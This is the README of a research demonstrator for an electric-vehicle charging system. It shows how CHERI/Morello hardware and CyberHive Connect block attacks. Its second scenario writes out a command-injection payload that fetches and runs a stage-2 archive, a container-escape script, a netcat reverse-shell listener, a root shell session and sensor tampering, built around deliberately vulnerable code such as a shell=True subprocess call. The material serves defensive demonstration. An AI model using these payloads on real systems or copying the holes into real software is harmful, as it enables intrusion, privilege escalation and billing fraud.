




# Electric Vehicle Charging Demonstrator

Electric Vehicle Charging Demonstrator is part of a work package to showcase CHERI - Morello and Connect capabilities.

## Background

In today's interconnected world, smart devices and digital systems have become the backbone of our daily lives. From our phones and homes to our workplaces, we're surrounded by technology that makes life more convenient and efficient. 
This digital revolution has expanded into transportation, with electric vehicles rapidly transforming our roads and charging stations becoming as common as petrol stations. However, as these connected systems grow more sophisticated and widespread, they also create new vulnerabilities. making cybersecurity not just a technical concern, but a fundamental requirement for our modern infrastructure. Each smart device, charging station, and connected vehicle represents a potential entry point for cyber attacks, making cybersecurity not just a technical concern, but a fundamental requirement for our modern infrastructure. 

In this demonstrator, we are going to showcase how potential attacks can take place on electric vehicle charging systems,and how CHERI and CyberHive Connect are able to provide protection against these attacks.

## Features
- The charging logic and communication between the central management server and the charging station happens through the OCPP protocol (v2), which is industry standard.
- Central management server: Public gateway to serve both the users and to keep track of charging stations. 
- Charging station displays:
    - A welcome screen with a QR code to start charging. 
    - Charging screen with basic charging metrics
        - The user can stop the charging process
    - Summary screen displaying basic info
    - Weather api
    - Ad display

- EV Charging App which provides the following screens:
    - Login Screen
    - Welcome Screen
    - Payment Screen
    - QR Code Scanning Screen
    - Summary and Billing Screen
    - Charging Screen
        - The user can stop the charging process.

## Demo
- [Normal Scenario](videos/Ev_Demo_Normal_Scenario_Compressed.mp4)

## Architecture


### Used Technologies and Frameworks
- Charging Station
    - Docker, Docker compose
    - Flask
    - Python 3.10
    - Nginx
    - Cyberhive Connect
    - Arm Morello
    - React
    - [Python OCPP](https://github.com/mobilityhouse/ocpp)
    - Raspberry Pi 3
    - Monitor
    - C (For sensor simulation)


- Central Management Server
    - Docker, Docker Compose
    - Flask
    - Python 3.10
    - [localtunnel](https://theboroer.github.io/localtunnel-www/)
    - Cyberhive Connect
    - Arm Morello
    - Postgresql
    - [Python OCPP](https://github.com/mobilityhouse/ocpp)
    - C and Rust (For authentication scripts)
    
- App 
    - React Native
    - Expo
    - An Android mobile device with Expo Go app installed (or Android Studio Emulator)


## Running
The components are placed into their own folders. 
- To run the central management server, copy the `central_management` folder to a morello machine. 
```bash
cd central_management
chmod +x build-on-morello.sh
./build-on-morello.sh
chmod +x start.sh
./start.sh on # on|off for connect
docker compose up -d # alternatively
```
- To expose the central management server to the internet via https we use localtunnel, a free reverseproxy service that can give us a desired subdomain name. The API to the central management system then is available at https://dsbd-cms-001.loca.lt/api.
``` bash
$ cd central management
$ lt -s dsbd-cms-001 --port $CENTRAL_MANAGEMENT_SERVER_API_PORT
your url is: https://dsbd-cms-001.loca.lt

```
- To run the charging station, copy the `charging_station` folder to a morello machine. 
```bash
cd charging_station
chmod +x build-on-morello.sh
./build-on-morello.sh
chmod +x start.sh
./start.sh on # on|off for connect
docker compose up -d # alternatively
```

- To setup and run the raspberry pi, copy the files in `charging_station/pi` to a Raspberry pi with Firefox installed and inside the pi:
``` bash
# If necessary, modify the startup.sh to point at the right IP address of the charging station
chmod +x install.sh
./install.sh
chmod +x startup.sh
./startup.sh # or 'sudo reboot' to automatically start it
```

- To access the the user interface of the charging station:
    - either use a browser from a machine that can reach the charging station and go to http://charging_station_ip. 
    - or start the raspberry pi inside the same LAN of the charging station and connect a monitor via an HDMI cable to the raspberry pi. It should automatically load the user interface of the charging station.

- To use the app, easiest way to run is using [expo](https://expo.dev/). You can either run the developmental app in your own device (Android or iOS) or you can run the app in an emulator. To run the app in your own device, install [Expo Go](https://expo.dev/go) from the google play store or iOS app store. In the Expo Go app, follow the instructions to scan the QR code generated by the expo cli below to run the development app in your own device. If you also have android studio with an emulator and an available device inside it (And you have android studio in PATH), you can use the expo cli to push your app into the emulated device too. 

``` bash
# Start expo metro ui 
cd app
npx expo start --clear # Scan the app from the cli. For the free version without login, this machine and the mobile device that you run expo go should be in the same network. 
```

- Copy the content inside `attacker` folder to the attacker machine. The attacker machie is placed in the same network only for this demo to make payload preparation as simple as possible. Payloads can be modified to point at some public address where the attacker can listen on and serve payloads.


## Adversarial Scenarios
We demonstrate two attack scenarios where the attack chain can be stopped from further progressing by CHERI's protection mechanisms.

### Scenario 1: Buffer Overflow in the Authentication Mechanism on the Login Screen
- [Demo Video](videos/Ev_Demo_Scenario1_Compressed.mp4)
- Background
    -  The authentication on the central management server is handled via a program (auth_noncheri.o for non-CHERI, auth_cheri.o for CHERI). We have a Rust based and a C based program that does username and password check The Rust based program uses the Rust CHERI compiler that was developed as part of the project. This program has a buffer overflow vulnerability. For the Rust part, this was implemented using unsafe Rust. This vulnerability can be associated with the following.
        - MITRE 2024 Top 25 - #2 Out-of-bound Write ([CWE-787](https://cwe.mitre.org/data/definitions/787.html))
        - MITRE 2024 Top 25 - #14 Improper Authentication ([CWE-287](https://cwe.mitre.org/data/definitions/287.html))

- Steps in the attack scenario:
    - During the login process in the app, the attacker fills the password field with enough characters to overflow the buffer. 
    - The system delivers the password data to the Rust/C program that checks user agains the entered password. 
    - A buffer overflow is achieved and the attacker is granted access.  
- CHERI Prevention
    - If the authentication program is pure cap CHERI, we get a runtime segmentation error and the buffer overflow is prevented.

- Architectural Diagram of the Scenario
    

### Scenario 2: Escape to Host via Memory Injection and Execution on Containers with Elevated Privileges
- [Demo Video](videos/Ev_Demo_Scenario2_Compressed.mp4)
- Background
    - The charging station provides a QR code to the users who have the app and are logged in. The url in the QR resolves into an API request that would just start the charging process if a vehicle is plugged in. The app adds the vehicle_id into the request and makes the request.
    - The request to start charging is handled at the server and the server wants to verify the data being submitted by the call is actually valid. For that purpose it crafts a specific OCPP command to ask the charging station verify the data (vehicle information).
    - When the charging station receives the information to verify, it then forwards it to the hw-manager service that can actually physically verify the data (vehicle information). When the confirmation completes, the charging starts. hw-manager runs in its own container where it has access to SYS_PTRACE capability, bacause it needs access to hardware resources with elevated privileges, which is not possible with constrained container. 
    - The vulnerability we introduce here is that the data being passed as vehicle data is not scrutinized in any part of the charging process, it can be summarized with the following vulnerabilities.
        - MITRE 2024 CWE Top 25 #13  Improper Neutralization of Special Elements used in a Command ('Command Injection') ([CWE-77](https://cwe.mitre.org/data/definitions/77.html))
        - Improper Neutralization of Argument Delimiters in a Command ('Argument Injection') ([CWE-88](https://cwe.mitre.org/data/definitions/88.html))
        - MITRE 2024 CWE Top 25 #11  Improper Neutralization of Special Elements used in a Command ('Command Injection') ([CWE-94](https://cwe.mitre.org/data/definitions/94.html))
        - Improper Isolation or Compartmentalization ([CWE-653](https://cwe.mitre.org/data/definitions/653.html))


- Steps in the attack scenario
    - Assumption: There is target process running on the host machine.
    ``` bash
    # For cheri run the following process to be the target
    ./simple_http_server_cheri &

    # For non cheri just run a simple python httpserver
    python -m http.server 5151 &
    ```
    - The attacker starts the ev-buster script that:
        - Generates a QR code for the app to read but also inject a malicious payload (Stage 1) in place of vehicle_id
        - Starts an http server to server the Stage 2 payload for the victim to download.
    
            <details>
            <summary>ev-buster usage with "cheri_off" </summary>  
        
            ```bash
            python ev-buster.py "cheri_off"
            Serving at port 8080 from directory: /home/parrot/Desktop/test/attacker
            Generating QR Code with the Stage 1 Payload
            https://dsbd-cms-001.loca.lt/api/start?charging_point_id=CP_1&vehicle_id=QUNNRTsgY3VybCAtTyAtSiAxOTIuMTY4LjAuMTAyOjgwODAvc2hhd3NoYW5rLnRhciA7dGFyIC14ZiBzaGF3c2hhbmsudGFyO3B5dGhvbjMgc2hhd3NoYW5rLnB5IGNoZXJpX29mZg==
                                                                             
                                                                             
                █▀▀▀▀▀█ ▀▀ ▀ ▀▄▀▀█▄ █▀█ █ █ ▀▀▀██▀ ▄█▀▀█▀▀█ ▀▄▀█  █▀▀▀▀▀█    
                █ ███ █ ▄▄███▀▀▄█▄▀█▀ █  ▀▄▀▄▀ █ ▀█▀▀▄ ▄▄▀▀▄▀▀▀█  █ ███ █    
                █ ▀▀▀ █ ██ ▄ ▀▀▄██ ▀▀▄▄█▀▀█▀▀▀██ ▀ ▄▀█▀▀ █▀▄▄▀▄▀  █ ▀▀▀ █    
                ▀▀▀▀▀▀▀ █▄▀▄▀ █ █▄█ ▀ █▄▀▄█ ▀ █ █ █▄█▄▀▄█ ▀ █ █ █ ▀▀▀▀▀▀▀    
                ▀ ▄▄▀ ▀██▄▄█▀ █▀█ ██ ▄▄▄▄██▀▀██▄▀█ ▄█▀▄▀ █▄▄█▄ ▄▄▀█▀█▀▄▄▀    
                 ▄▀▀█▄▀█▀▀▄▄▄▀▄█▄██▄▄ ▄▄▀█▀ ▀  ▄▄▀▀▀▄▄█ ▀▀  ▀  █▄ ▄▀▀▀▀▀▄    
                ▄ ▀ █▄▀▀▀  ▀ █ █▄  ██  ▀▄▄▄  █▄ ▀▄▀ ▀▀█▀▄ █▄█▄▀▄▄▀█▀ ▄▀█▀    
                ▄ ▀▄▀▀▀   ▀▄▄ ▄▄▀█▀▀ ▀█ ▀ ▀▀ █▄█ ▀▄█▄▄▀ ▀ █▀ ▄ ▄▀▀▀ █ ▀█     
                ▄▄█▀▀▄▀█  █▄▀ ▄█▀▀▀▀▀▄██▄▄▄█ ▄█ ██ ▀▀▀█  ██▄██ ▄▄▄▄█▄▀█▄█    
                ▀█▄▀█▀▀  █▀     ▀█▀█▄▄▀▀▀█   ████▄█▀▀█ ▀█▄▀█▄██▄▄██ ▀█▀█▄    
                 ▀▄▀█▀▀  ▄▀█▄ ▄▀  ▀ █▄█▄▄ ▄█ ▄█ ██ ██ ██ █▄███▀▄▄ ▄▀ ▀ █▀    
                ▀██ ▀▄▀▀▄▄█▀▀▄▄▄█▄▄██▀▄█▄▄ ▀██▄▄  ▄▄███▀   ▀▄▀▄ █▀██▀▀ ▀▄    
                ▄██▀  ▀ ▄█  █▀ ██ ▄▀███▀▄▄▄▀▄▀█ ▀█▀█▀▀▄▄▄██ ██▀▄█ ██▄█▄▄     
                 ▄█▀█▀▀▀█  █▄ ██▄█▀▄▄ ▄▄▄██▀▀▀████▀█▄▄▀▀▀▀ ▀██▄▀█▀▀▀█ ▀█     
                 ██▀█ ▀ █ ▄ ██ ▄▀ █▀▄█▀▄▄██ ▀ █▀▀█ █▀ █▄ ▄▄▄██▀▄█ ▀ █ ▄▀     
                █   ▀█▀██  ▀▄█▀ █ ▀▀▄█▄ █▀█▀▀██ ▄▀▀█  ██ ▄▀ █▀▄▀█▀▀▀█ ▀█     
                ▄█▀▄▀▄▀▀▀▀█  ▀ ▄ █▄▀▄▄█▄▄█ █▀██▄▀▄ ▀▀▀▄▄ █▄ ▀▄ ▄█▄▄█▀ ▀▀█    
                ▄▀█▄█▀▀▀▀▄▀▀█▄█ █▀  ▀█████▀▄▄▄ ▄█   █ ▄▀▀█ █ ▄███▀▄ █  ▀▀    
                ▄██▀▀▄▀█▀ ▄▄█▄ ▄▀█ ▀ ▄▀▄██▀█ █ ███▀▀▀▀▄  ▀▄ ▀█  ▀▄▀█ ██▀▀    
                ▄█▀▄ ▀▀▄▄ ▀█▀ ▄ ▄▄█▄█▀▄ ▀▀▀██▄ ▀▄█ █  ▀▀██▀▀█▄ ▀▄▀▄▀█  ▄▄    
                     ▀▀▀▄▄▄█ █ ▀ ██▀▀█ ▄▄▄█▄▀ ▄ ▀█ ██▀▄█▄▄█ ██ ▄ █ ▄▀▄▄▄▄    
                ▀█▄█▄ ▀██▄  ▀█ █ ▄▄▄█▀▀█▄▀██▄▄▄▀█▀█▄▄▄▄▄▄ ▄ ███   ▄▀ ▀ █▄    
                ▀▀ ▀▄█▀█▄█▄▀▀▄█ ▄  █▀▀▄██▄▀▄   ▄▀ ▀██▀██ ████▀▀▄ ███▀▀ ▀▀    
                █▄█▄▄▀▀█▀▀ ▀  ▀█▀ ▀▄█▀  ▀▀▀▀█ ▄▀█ ▄██ █▀▄▄▄▀▄▄▄ ▄▀▄▀█  ▀▄    
                      ▀ ██▄▄▀█▄▀  ▀█▀█▀▀▄▀█▀▀▀█ ▀█▀█▀▀█▀ ██▄▀▄▀ █▀▀▀█ ▄▄▀    
                █▀▀▀▀▀█ ▀ █▀▄▀▄██▄  █▀█▀  █ ▀ █ ▄▀█▄█ ▀ ▀▀▄▄▄▀ ▄█ ▀ █  ▀     
                █ ███ █ ▀ ▀█▄█▄▀▄▀█  ▀███▄▀▀▀█▀ ▀  ▀█ █▄▄▄▄▀██▀▄███▀▀█▄█▄    
                █ ▀▀▀ █  ▀▀██ ▄▄ ▄▀ █ █ ▄▀ ▄▀ ▀▀██ ▄▀▀█  ▀█  █ ▄▄█ ▄█▄▀      
                ▀▀▀▀▀▀▀ ▀▀▀▀  ▀▀ ▀  ▀   ▀ ▀▀▀▀  ▀▀ ▀▀ ▀  ▀▀ ▀  ▀   ▀ ▀  ▀    
                                                                             
                                                                             
            192.168.0.14 - - [09/Dec/2024 13:07:39] "GET /shawshank.tar HTTP/1.1" 200 -
            ```
            </details>

        
        - If we inspect the payload `vehicle_id=QUNNRTsgY3VybCAtTyAtSiAxOTIuMTY4LjAuMTAyOjgwODAvc2hhd3NoYW5rLnRhciA7dGFyIC14ZiBzaGF3c2hhbmsudGFyO3B5dGhvbjMgc2hhd3NoYW5rLnB5IGNoZXJpX29mZg==` we can see that it is actually `vehicle_id=ACME; curl -O -J 192.168.0.102:8080/shawshank.tar ;tar -xf shawshank.tar;python3 shawshank.py cheri_off`

    - The attacker also starts listening for a reverse shell for the time Stage 2 payload succeeds using a reverse shell handler. 

        ```bash
        nc -lvnp 9999
        listening on [any] 9999 ...
        ```

    - The attacker scans the crafted QR and starts the charging process. 
    - The central management server processes and forwards the data to verify it without any other checks to the charging station via OCPP.
    - The charging station receives the OCPP message and takes out the vehicle data and forwards it to the hw-manager service that should verify it. 
    - The hw manager runs the vehicle id through the hw-manager /verify endpoint, however it also executes part of the malicious payload. 


    ```python
    @app.route('/hw/verify', methods=["POST"])
    def verify():
        data = request.json['vehicle_id']
        print(data)
        command_str = "python3 hw-io.py "+base64.urlsafe_b64decode(data).decode('utf-8')
        print(command_str)
        output = subprocess.run(command_str,
                                shell=True,
                                text=True)
        print(output)
        if output.returncode == 0:
            return jsonify(True)
        else:
            return jsonify(False)
    ```

    - The malicious payload from Stage 1 downloads the Stage 2 payload, untars and executes it. 
    - The Stage 2 payload finds a target process from the host machine to do memory injection and injects a specific shellcode into the memory of the process, which can run in the same privileges of the owner of the target process. 
        <details>
        <summary>shawshank.py</summary>
    
        ```python
        import subprocess
        import os
        from sys import argv


        def find_process_by_name(cheri_on):
            targets = []

            if cheri_on == "cheri_on":
                target = ["simple_http_server_cheri"]
            else:
                targets = ["http.server", "fish"]
            for target in targets:
                target_pid = int(subprocess.check_output(["pgrep","-f", target]))
                if target_pid:
                    return target_pid


        def container_breakout(cheri_on):
            target_pid = find_process_by_name(cheri_on)
            if target_pid:
                os.chdir(os.getcwd()+"/mem_inject")
                subprocess.run("python3 mem_inject.py " + str(target_pid) + " " + argv[1], shell=True, check=True)


        container_breakout(argv[0])
        ```
    
        </details>
    
    - When the code executes on the host machine a reverse shell is received on the attacker machine.
    - Persistence Stage
        - Once the connection is established, the attacker upgrades to a better shell. 
        ```bash
        ──╼ $nc -lvnp 9999
        listening on [any] 9999 ...
        connect to [192.168.0.102] from (UNKNOWN) [192.168.0.14] 60538
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        root@deb-morello-3:/root# whoami
        whoami
        root
        root@deb-morello-3:/root# ls
        ls
        DSbD  cyberhive-connect_3.5.1-4dac419_arm64.deb  hnc-demo
        ```
        - Then the attacker goes into the `hw-manager` container to replace a sensor using the `sensor_replacement.sh` script. This will cause the system to charge less money per kWh charged. This will remain the same for every other user that uses this station.
        ```bash
        root@deb-morello-3:/root# target_container=$(docker ps | grep hw-manager | cut -d" " -f1)
        <iner=$(docker ps | grep hw-manager | cut -d" " -f1)
        root@deb-morello-3:/root# docker exec -ti $target_container /bin/bash
        docker exec -ti $target_container /bin/bash
        root@deb-morello-3:/app# chmod +x sensor_replacement.sh              
        chmod +x sensor_replacement.sh
        root@deb-morello-3:/app# ./sensor_replacement.sh
        ./sensor_replacement.sh
        root@deb-morello-3:/app# ls
        ls
        Dockerfile    ev_sensor_hijack.sh  mem_inject		  shawshank.py
        ev_sensor     ev_sensor_orig	   nohup.out		  shawshank.tar
        ev_sensor.c   hw-io.py		   requirements.txt
        ev_sensor.py  hw-manager.py	   sensor_replacement.sh
        ```

- CHERI Prevention
    - If the process that is being targeted was pure cap CHERI, injection does not lead to code execution on the host as the targeted process breaks with a capability tag fault, effectively preventing the execution of the injected code, and hence privilege escalation and container escape. Hence if the attacker cannot find a non-cheri process, the container escape should fail for this method.

- Architectural Diagram of the Scenario
    

### Scenario 3: Information Disclosure via Left over Debug Code - CHERI Compartmentalization Prevention
- [Demo Video](videos/Ev_Demo_Scenario3_Compressed.mp4)
- Background
The vulnerability that is introduced in the central management server. The developers left some debug code in the code section that handles payment, specifically when the user enters an invalid credit-card number (a number that is not supported by this application). This debug code leads to information disclosure on the app. This vulnerability can be associated with the following.
    - MITRE 2024 CWE Top 25 #6 Out-of-bounds Read  ([CWE-125](https://cwe.mitre.org/data/definitions/125.html))
    - MITRE 2024 CWE Top 25 #12 Improper Input Validation ([CWE-20](https://cwe.mitre.org/data/definitions/20.html))
    - MITRE 2024 CWE Top 25 #17 Exposure of Sensitive Information to an Unauthorized Actor ([CWE-200](https://cwe.mitre.org/data/definitions/125.html)) 
        - Debug Messages Revealing Unnecessary Information ([CWE-1295](https://cwe.mitre.org/data/definitions/1295.html))
        -  Insertion of Sensitive Information Into Debugging Code ([CWE-215](https://cwe.mitre.org/data/definitions/215.html))
        - Exposure of Sensitive System Information Due to Uncleared Debug Information ([CWE-1258](https://cwe.mitre.org/data/definitions/1258.html))
        - Generation of Error Message Containing Sensitive Information ([CWE-209](https://cwe.mitre.org/data/definitions/209.html))
    - Active Debug Code ([CWE-489](https://cwe.mitre.org/data/definitions/489.html))


- Steps in the Attack Scenario
    - In the app, the attacker logins normally and proceeds to the card information input screen.
    - In this screen the attacker tries different inputs and notices that the app prints out errors when presented with various input and further analyzes the situation, learns that the app prints out errors that contain sensitive information "Secret" on the screen, which could be an API key.

- CHERI Prevention
    - We show that by compartmentalizing the vulnerable function, we are able to prevent vulnerable code reaching out to other memory locations and hence limiting the severity of the vulnerability. Using CHERI compartmentalization the same sensitive information is not revealed to the attacker. 

- Architectural Diagram of the Scenario


## Development 

###  Mobile Development

```bash 
npm install -g expo-cli
expo init app

cd app
npm install @react-navigation/native @react-navigation/native-stack react-native-gesture-handler react-native-reanimated react-native-screens react-native-safe-area-context @react-native-community/masked-view   

npx expo install expo-build-properties
npx expo start --clear
```
### Attacker's Side
Attacker Stage 2 payloads should be put in shawshank.tar, which can be achieved by the provided `prepare_package.sh` script. In any case you modify the files such as mem_inject/*, sensor_replacement.sh and shawshank.py ev_sensor_hijack.sh, redo the following command. This regenerates shawshank.tar.
```bash
./prepare_package.sh
```

